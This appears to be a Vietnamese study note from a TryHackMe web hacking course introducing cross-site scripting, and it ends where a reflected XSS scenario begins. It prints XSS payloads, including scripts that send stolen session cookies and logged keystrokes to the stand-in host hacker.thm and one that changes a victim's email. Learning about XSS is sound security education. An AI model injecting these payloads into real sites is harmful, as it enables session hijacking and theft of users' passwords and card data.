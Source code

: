 # Intro to Cross-site Scripting

***Proof Of Concept (POC)***:

- Mục đích: Chứng minh rằng một lỗ hổng XSS (Cross-Site Scripting) tồn tại trên website.

- Cách thực hiện: Sử dụng một đoạn mã JavaScript đơn giản để hiển thị một hộp thông báo (alert box) trên trang web.

- Ví dụ: 
    
        <script>alert(‘XSS’);</script>

***Session Stealings:***

- Mục đích: Đánh cắp thông tin phiên làm việc (session) của người dùng, chẳng hạn như token đăng nhập, thường được lưu trữ trong cookie.

- Cách thực hiện: Sử dụng JavaScript để lấy cookie, mã hóa nó (bằng Base64), và gửi đến một website do hacker kiểm soát.

- Ví dụ:

        <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
    
***Key Logger (Trình ghi phím)***

- Mục đích: Ghi lại mọi thứ người dùng nhập trên website (ví dụ: mật khẩu, thông tin thẻ tín dụng) và gửi đến hacker.

- Cách thực hiện: Sử dụng JavaScript để theo dõi sự kiện nhấn phím và gửi dữ liệu đến website của hacker. 

- Ví dụ:

        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>

***Business Logic***

- Mục đích: Khai thác các chức năng nghiệp vụ cụ thể của website, chẳng hạn như thay đổi thông tin người dùng.

- Cách thực hiện: Sử dụng JavaScript để gọi các hàm nghiệp vụ của website, ví dụ như thay đổi email của người dùng.

- Ví dụ:

        <script>user.changeEmail('attacker@hacker.thm');</script>

***Reflected XSS***

Ví dụ kịch bản như sau: 

1 website mà khi nhập thông tin sai, 1 error message sẽ được hiển thị. Nội dung của error message được lấy từ tham số ***error*** trong Query String và được tích hợp trực tiếp vào Page Source:

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image104.png?raw=true)
